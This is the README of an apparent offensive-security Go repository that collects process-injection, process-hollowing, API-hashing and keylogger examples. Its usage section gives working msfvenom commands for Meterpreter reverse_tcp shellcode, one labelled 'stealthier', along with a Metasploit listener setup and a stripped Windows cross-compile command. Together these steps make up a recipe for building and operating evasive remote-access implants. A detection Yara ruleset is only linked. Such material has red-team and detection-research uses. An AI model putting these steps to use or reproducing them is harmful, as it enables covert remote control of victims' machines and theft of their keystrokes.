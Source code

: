 # go-inject

Process injection techniques written in Go. I've also expanded this repo to include some general offense techniques in Go.

## Examples

Process Injection

* [Classic virtual alloc](examples/x64/valloc/valloc.go)
* [Heap](examples/x64/heap/heap.go)
* [Remote Thread Injection](examples/x64/remote-thread/remote_thread.go)
* [APC Queue Code Injection](examples/x64/queue-user-apc/queue.go)
* [UUID Injection - Used by Lazarus 2021](examples/x64/uuid/uuid.go)

Other offensive techniques:

* [Hook detection](examples/x64/detect-hooks/detect-hooks.go)
* [Keylogger](examples/x64/keylog/keylog.go)
* [Hollow](examples/x64/hollow/hollow.go)
* [API Hashing](examples/x64/api_hash/api_hash.go)

## Usage

Use msfvenom to generate shellcode:
```bash
# Option 1: Testing with calculator.
msfvenom -p windows/x64/exec CMD=calc.exe -f hex

# Option 2: Reverse tcp stager.
msfvenom -p windows/x64/meterpreter/reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444

# Option 3: Stageless payload - stealthier.
msfvenom -p windows/x64/meterpreter_reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444
```

Place payload string from above command within one of the example .go files replacing the content of the `payload` variable. If using uuid example, use [shellcode-to-uuids](helpers/shellcode-to-uuids.go) to convert to payload.

Start listener:

```bash
use payload/windows/x64/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
to_handler
```

## Build Examples

Linux:
```bash
env GOOS=windows go build -ldflags="-s -w" -trimpath examples/x64/uuid/uuid.go
```

## Detection

[Yara ruleset](yara/goinject.yar)

## References

* https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/
* https://github.com/Adepts-Of-0xCC/VBA-macro-experiments/blob/main/EDRHookDetector.vba
* https://github.com/brimstone/go-shellcode
* https://github.com/sysdream/hershell
* https://github.com/yoda66/MalwareDevTalk
* https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/
* https://medium.com/@justen.walker/breaking-all-the-rules-using-go-to-call-windows-api-2cbfd8c79724
* https://posts.specterops.io/adventures-in-dynamic-evasion-1fe0bac57aa
* https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
* https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection
* https://github.com/abdullah2993/go-runpe
